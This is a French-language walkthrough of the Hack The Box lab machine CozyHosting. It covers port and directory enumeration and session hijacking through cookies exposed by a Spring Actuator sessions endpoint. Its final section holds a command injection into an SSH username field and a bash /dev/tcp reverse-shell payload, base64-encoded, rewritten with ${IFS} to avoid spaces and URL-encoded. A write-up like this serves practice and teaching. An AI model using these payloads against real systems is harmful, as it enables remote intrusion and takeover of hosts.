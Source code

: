 ```yaml
---
tags:
  - Easy
  - Linux
---
```


# CozyHosting

![CozyHosting](img_CozyHosting/logo.png)

## Information Générales

- **Difficulté** : Easy
- **Système d'exploitation** : Linux


## Walkthrough

### Hosts

```bash
echo "$ip cozyhosting.htb" | sudo tee -a /etc/hosts
```

### Enumeration

#### Nmap

```bash
$ nmap 10.129.98.140
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-04 11:12 BST
Nmap scan report for 10.129.98.140
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

PORT 22 - SSH

PORT 80 - HTTP

### Web

#### Dirsearch

```bash
$ ./dirsearch.py -u http://cozyhosting.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11714

Output: /home/htb-jeanpiffre/Desktop/Git/dirsearch/reports/http_cozyhosting.htb/__23-10-04_16-04-42.txt

Target: http://cozyhosting.htb/

[16:04:42] Starting: 
[16:05:12] 200 -    0B  - /;/admin
[16:05:12] 200 -    0B  - /;/json
[16:05:12] 200 -    0B  - /;admin/
[16:05:12] 200 -    0B  - /;json/
[16:05:12] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[16:05:12] 200 -    0B  - /;/login
[16:05:12] 200 -    0B  - /;login/
[16:05:15] 400 -  435B  - /a%5c.aspx
[16:05:18] 200 -    0B  - /actuator/;/auditevents
[16:05:18] 200 -  634B  - /actuator
[16:05:18] 200 -    0B  - /actuator/;/auditLog
[16:05:18] 200 -    0B  - /actuator/;/beans
[16:05:18] 200 -    0B  - /actuator/;/conditions
[16:05:18] 200 -    0B  - /actuator/;/configurationMetadata
[16:05:18] 200 -    0B  - /actuator/;/exportRegisteredServices
[16:05:18] 200 -    0B  - /actuator/;/features
[16:05:18] 200 -    0B  - /actuator/;/flyway
[16:05:18] 200 -    0B  - /actuator/;/health
[16:05:18] 200 -    0B  - /actuator/;/events
[16:05:18] 200 -    0B  - /actuator/;/heapdump
[16:05:18] 200 -    0B  - /actuator/;/httptrace
[16:05:18] 200 -    0B  - /actuator/;/env
[16:05:18] 200 -    0B  - /actuator/;/dump
[16:05:18] 200 -    0B  - /actuator/;/integrationgraph
[16:05:18] 200 -    0B  - /actuator/;/jolokia
[16:05:18] 200 -    0B  - /actuator/;/logfile
[16:05:18] 200 -    0B  - /actuator/;/caches
[16:05:18] 200 -    0B  - /actuator/;/healthcheck
[16:05:18] 200 -    0B  - /actuator/;/configprops
[16:05:18] 200 -    0B  - /actuator/;/info
[16:05:19] 200 -    0B  - /actuator/;/metrics
[16:05:19] 200 -    0B  - /actuator/;/mappings
[16:05:18] 200 -    0B  - /actuator/;/liquibase
[16:05:19] 200 -    0B  - /actuator/;/prometheus
[16:05:19] 200 -    0B  - /actuator/;/registeredServices
[16:05:19] 200 -    0B  - /actuator/;/scheduledtasks
[16:05:19] 200 -    0B  - /actuator/;/loggers
[16:05:19] 200 -    0B  - /actuator/;/sessions
[16:05:19] 200 -    0B  - /actuator/;/shutdown
[16:05:19] 200 -    0B  - /actuator/;/springWebflow
[16:05:19] 200 -    0B  - /actuator/;/ssoSessions
[16:05:19] 200 -    0B  - /actuator/;/refresh
[16:05:19] 200 -    0B  - /actuator/;/statistics
[16:05:19] 200 -    0B  - /actuator/;/status
[16:05:19] 200 -    0B  - /actuator/;/threaddump
[16:05:19] 200 -    0B  - /actuator/;/trace
[16:05:19] 200 -    0B  - /actuator/;/sso
[16:05:19] 200 -    0B  - /actuator/;/releaseAttributes
[16:05:19] 200 -    0B  - /actuator/;/resolveAttributes
[16:05:19] 200 -    0B  - /actuator/;/loggingConfig
[16:05:20] 200 -   15B  - /actuator/health
[16:05:20] 200 -    5KB - /actuator/env
[16:05:21] 200 -   48B  - /actuator/sessions
[16:05:22] 200 -   10KB - /actuator/mappings
[16:05:26] 401 -   97B  - /admin
[16:05:30] 200 -    0B  - /admin/%3bindex/
[16:05:32] 200 -  124KB - /actuator/beans
[16:05:35] 200 -    0B  - /Admin;/
[16:05:35] 200 -    0B  - /admin;/
[16:06:01] 200 -    0B  - /axis//happyaxis.jsp
[16:06:01] 200 -    0B  - /axis2-web//HappyAxis.jsp
[16:06:01] 200 -    0B  - /axis2//axis2-web/HappyAxis.jsp
[16:06:11] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[16:06:29] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[16:06:29] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[16:06:29] 500 -   73B  - /error
[16:06:31] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[16:06:32] 200 -    0B  - /extjs/resources//charts.swf
[16:06:42] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[16:06:49] 200 -    0B  - /jkstatus;
[16:06:56] 200 -    4KB - /login
[16:06:56] 200 -    0B  - /login.wdm%2e
[16:06:57] 204 -    0B  - /logout

Task Completed
```

On observe la présence de fichier :
- Sessions `/actuator/;/sessions`
- Login `/;/login`
- Admin `/;/admin`


#### Sessions

Sur la page web `http://cozyhosting.htb/actuator/sessions`, on trouve une base de données `JSON` avec les cookies d'une sessions.

![Page web de session](img_CozyHosting/sessions_json.JPG)

Aller sur la page de login `http://cozyhosting.htb/login` et rentrer des identifiants pour avoir une session avec des cookies, puis changer les cookies avec ceux trouvé avant de recharger la page.

++f12++ ou ++ctrl+shift+i++

![Login sessions](img_CozyHosting/login_session.JPG)

En allant dans le sirte on observe une nouvelle zone de login.

#### Burp

Nous rencontrerons une fonction liée à la configuration des connexions SSH.

![Tempory failure in name resolution](<img_CozyHosting/tempory failure in name resolution.JPG>)

Si nous laissons la section 'Param Username' vide, nous observons une erreur liée à une commande SSH, indiquant une potentielle vulnérabilité d'injection de commande dans cette section.

![Error related to an SSH command](<img_CozyHosting/error related to an SSH command.JPG>)

##### Reverse Shell

Création d'un Payload de reverse shell :

```bash
$ echo "bash -i >& /dev/tcp//7777 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjYvNzc3NyAwPiYxCg==
```

Le reverse shell :

```bash
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjYvNzc3NyAwPiYxCg==" | base64 -d | bash
```

Le reverse shell sans espace :

```bash
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8vNzc3NyAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

Le reverse shell encodé (https://www.urlencoder.org/) :
```bash
%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8vNzc3NyAwPiYxCg%3D%3D%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D-d%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```